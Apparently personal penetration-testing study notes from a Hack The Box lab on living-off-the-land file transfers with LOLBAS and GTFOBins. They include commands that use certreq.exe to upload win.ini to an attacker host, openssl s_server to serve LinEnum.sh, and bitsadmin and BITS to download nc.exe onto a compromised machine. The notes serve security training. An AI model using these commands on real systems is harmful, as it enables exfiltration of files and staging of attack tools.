 Resources:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/) 
## LOLBAS

- search using /download or /upload 
Situation: we need to listen on a port on our attack box for incoming traffic using netcat, then execute certreq.exe to upload a file
 
### Upload win.ini to pwnbox:

```
C:\htb> certreq.exe -Post -config 
http://192.168.49.128:8000/
 c:\windows\win.ini
￼
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)




burray@htb
[/htb]
$
openssl s_server -quiet -accept 
80
-cert certificate.pem -key key.pem < /tmp/LinEnum.sh

PS C:\htb> bitsadmin /transfer wcb /priority foreground 
http://10.10.15.66:8000/nc.exe
 C:\Users\htb-student\Desktop\nc.exe
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "
http://10.10.10.32:8000/nc.exe
" -Destination "C:\Windows\Temp\nc.exe"
￼












```

[http://192.168.49.128:8000/](http://192.168.49.128:8000/) c:\windows\win.ini￼Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
 
### File Received:

![Exported image](Exported%20image%2020240712140349-0.png)  

*** If you get an error, the version may not contain the -Post param***
 
## GTFOBins

- search using +<keyword> 
1. Create Certificate on Pwnbox
    
    1. ![Exported image](Exported%20image%2020240712140349-1.png)
2. Stand up Server on Pwnbox
    
    1. burray@htb[/htb]$openssl s_server -quiet -accept 80-cert certificate.pem -key key.pem < /tmp/LinEnum.sh
3. Download file from compromised machine
    
    1. ![Exported image](Exported%20image%2020240712140349-2.png)
 
## Other Tools

### Bitsadmin Download function

- used to download files from HTTP sites and SMB shares
    
    1. File Download
        
        1. PS C:\htb> bitsadmin /transfer wcb /priority foreground [http://10.10.15.66:8000/nc.exe](http://10.10.15.66:8000/nc.exe) C:\Users\htb-student\Desktop\nc.exe
    2. Download
        
        1. PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "[http://10.10.10.32:8000/nc.exe](http://10.10.10.32:8000/nc.exe)" -Destination "C:\Windows\Temp\nc.exe"￼

### Certutil

- used to download arbitrary files; defacto wget for Windows **MALICIOUS**
    
    1. Download a file with Certutil
        
        1. ![Exported image](Exported%20image%2020240712140349-3.png)
    2.   
        
 
## LOLBAS
   

### Upload win.ini to pwnbox:
 
### File Received:
   

## GTFOBins
 
### OpenSSL
 
## Other Tools

### Bitsadmin Download function
 
### Certutil